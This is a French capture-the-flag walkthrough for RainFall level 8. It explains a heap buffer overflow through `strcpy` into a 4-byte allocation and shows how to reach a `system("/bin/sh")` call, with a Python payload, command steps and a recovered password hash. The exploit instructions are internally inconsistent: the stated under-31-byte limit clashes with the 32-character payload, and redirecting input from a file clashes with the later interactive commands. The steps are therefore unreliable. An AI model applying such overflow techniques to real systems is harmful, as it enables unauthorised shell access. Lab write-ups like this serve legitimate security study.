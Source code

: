 # RainFall Level 8 Walkthrough

## Objectif

Obtenir un shell en exploitant une vulnérabilité dans un programme C.

## Analyse du binaire

Le programme lit des entrées dans une boucle infinie avec `fgets()`, puis compare le début de l'entrée à plusieurs commandes comme :

* `auth`
* `service`
* `reset`
* `login`

Il utilise les pointeurs globaux `auth` et `service` pour stocker des données.

### Vulnérabilité

Quand la commande `auth` est envoyée, le programme fait :

```c
auth = malloc(4);
strcpy(auth, local_8b);
```

Mais `strcpy()` copie sans vérifier la taille, ce qui permet un **buffer overflow** de `auth`, allouée seulement sur 4 octets !

Ensuite, si la commande `login` est appelée, le programme fait :

```c
if (*(int *)(auth + 0x20) != 0) {
    system("/bin/sh");
}
```

Donc le but est de faire en sorte que `auth + 0x20` contienne une valeur non nulle.

## Contraintes

* Le contenu de `local_8b` (copié dans `auth`) doit être **< 31 octets**, sinon `strcpy` est ignoré.
* `local_8b` débute à l'offset 5 de `local_90`, donc le payload doit être pensé avec un décalage.

## Exploit

### En ligne de commande :

```bash
python -c "print 'auth ' + 'A'*32" > payload
./level8 < payload
```

Puis :

```
service
service
login
```

Cela affiche :

```bash
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

## Conclusion

Ce niveau illustre un buffer overflow sur heap avec écriture au-delà des limites allouées et condition basée sur un offset.

Payload bien calculé = shell gagné 🚀
